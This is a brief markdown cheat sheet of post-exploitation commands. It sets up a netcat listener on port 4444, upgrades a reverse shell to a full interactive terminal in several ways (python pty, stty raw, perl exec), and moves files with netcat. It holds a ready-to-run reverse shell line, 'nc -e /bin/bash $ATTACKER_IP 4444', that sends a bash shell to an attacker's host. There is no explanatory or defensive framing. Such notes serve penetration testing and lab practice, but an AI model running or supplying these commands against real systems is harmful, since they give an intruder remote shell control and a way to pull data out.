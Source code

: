 #nc #reverse #listen

Open reverse shell listener on port 4444:
----
```bash
nc -nvlp 4444
```

Beautify reverse shell:
---
#rev #shell #rev-shell #beautify #upgrade

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
press Ctrl + Z
```shell
stty raw -echo; fg
```
then
```shell
export TERM=xterm-256color
reset
alias ll='ls -lsa --color=auto'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
stty columns 157 rows 34
```
or if no python present:

```bash
perl -e 'exec "/bin/bash";'
/bin/bash -i
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z
stty raw -echo; fg
stty rows 34 columns 157;export TERM=xterm-256color;alias ll='ls -lsa --color=auto'
```
or
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z
stty raw -echo; fg
stty rows 34 columns 157;export TERM=xterm-256color;alias ll='ls -lsa --color=auto'
```
or
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z;
stty raw -echo; fg;
export SHELL=/bin/bash;export TERM=screen;stty rows 33 columns 156;reset
```
or
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
or
```shell
python -c 'import os; os.system("/bin/bash")'
```

Reverse shell from target to attacker
---
#rev-shell #rev #reverse #shell

```bash
nc -e /bin/bash $ATTACKER_IP 4444
```

Transfer file
---
#nc #file #transfer 

on receiver
```shell
nc -l -p 1234 > out.file
```
on sender
```shell
nc -w 3 $RECEIVER_IP 1234 < out.file
```
